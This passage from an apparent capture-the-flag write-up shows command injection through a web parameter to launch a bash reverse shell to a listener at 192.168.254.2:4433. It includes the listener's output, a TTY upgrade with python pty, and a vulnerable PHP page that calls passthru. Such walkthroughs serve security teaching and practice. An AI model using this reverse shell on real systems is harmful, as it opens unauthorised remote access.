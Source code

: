I’ll first try a Bash reverse shell (with the `&` encoded as `%26` to not confuse the web request):

```

http://127.0.0.1:9001/index.php?a=bash -c 'bash -i >%26 /dev/tcp/192.168.254.2/4433 0>%261'

```

After a few refreshes, it connected back:

```

www-data@web:~$ /tmp/nc -lnvp 4433
Ncat: Version 6.49BETA1 ( http://nmap.org/ncat )
Ncat: Listening on :::4433
Ncat: Listening on 0.0.0.0:4433
Ncat: Connection from 192.168.254.3.
Ncat: Connection from 192.168.254.3:39820.
bash: cannot set terminal process group (14): Inappropriate ioctl for device
bash: no job control in this shell
www-data@pki:~/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

Even though it’s running on web, the normal PTY trick works:

```

www-data@pki:~/html$ python3 -c 'import pty;pty.spawn("bash")'
python3 -c 'import pty;pty.spawn("bash")'
www-data@pki:~/html$ ^Z
[1]+  Stopped                 /tmp/nc -lnvp 4433
www-data@web:~$ stty raw -echo; fg
/tmp/nc -lnvp 4433
                  reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@pki:~/html$

```

## Shell as root

### Enumeration

Looking at the webpage, it’s super simple:

```

<?php
header('X-Powered-By: PHP-FPM/7.1');
//cn needs to be parsed!!!
$cn=preg_replace("/[^A-Za-z0-9 ]/", '',$_GET['cn']);
echo passthru("/usr/bin/ersatool create ".$cn);
?>

```
